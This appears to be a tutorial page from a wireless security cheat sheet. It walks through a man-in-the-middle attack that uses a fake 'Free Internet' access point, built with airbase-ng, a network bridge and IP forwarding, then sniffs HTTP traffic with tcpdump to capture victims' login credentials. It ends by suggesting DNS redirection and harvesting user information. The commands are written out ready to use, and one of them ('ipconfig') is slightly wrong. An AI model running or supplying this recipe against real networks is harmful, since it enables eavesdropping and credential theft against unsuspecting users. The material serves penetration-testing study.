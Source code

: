 > **Man in the Middle Attack**
>
> Setup:
>
> * A victim client unassociated from any AP
> * The attacker machine should be connected to the internet through a wired interface
>
> You will need Internet access on the attack point as we will be running MitM attacks that require packet forwarding towards the real destination in order to sniff the resulting traffic.
>
> Steps:
>
> 1. Set up a fake AP
> 2. Start a DHCP server to provide the network configuration to connecting clients
> 3. Forward all the traffic toward the Internet but ...
> 4. .. act as MitM eavesdropping all the communications
>
> ```bash
> # First we put the wireless interface into monitor mode as we always do:
> > airmon-ng
> # Start airbase-ng and setup AP with a catch SSID name
> > airbase-ng -c <channel> -e "Free Internet" <interface>
>
> # Create a network bridge interface with the following commands:
> > sudo apt-get install bridge-utils
> > brctl addbr br0
> > brctl addif br0 eth0
> > brctl addif br0 at0
> # br0: is the name of the bridge interface we are creating
> # eth0: wired interface
> # at0: virtual interface created by airbase-ng
>
> # Now that we have created a bridge between the airbase-ng virtual interface
> # and our wired interface, we need to assign an IP address to it:
> > ipconfig br0 <ip_address> up
>
> # enable IP packet forwarding:
> > echo 1 > /proc/sys/net/ipv4/ip_forward
> ```
>
> All of the Internet directed traffic from the victim client is already being forwarded through the attack machine. To confirm everything is working fine, you can try to browse a website from your victim client. You should be able to load it correctly. 
>
> Now that you are controlling all of the traffic flowing from and towards the client, you can try to steal confidential data such as website credentials as in the classic MitM attack. 
>
> Fire up your favorite sniffing tool and start listening on your virtual wireless interface
>
> ```bash
> > tcpdump -nvi <interface> tcp port 80 -A
> ```
>
> From the victim client, we now ingenuously browse to a sample website. In such website a form where the user is required to insert login and password in order to access a secured area
>
> Shortly after the POST HTTP request, `tcpdump` output will dump the user credentials on your screen.
>
> More possibilities:
>
> * Redirect DNS Requests
> * Change web page content
> * Harvest user information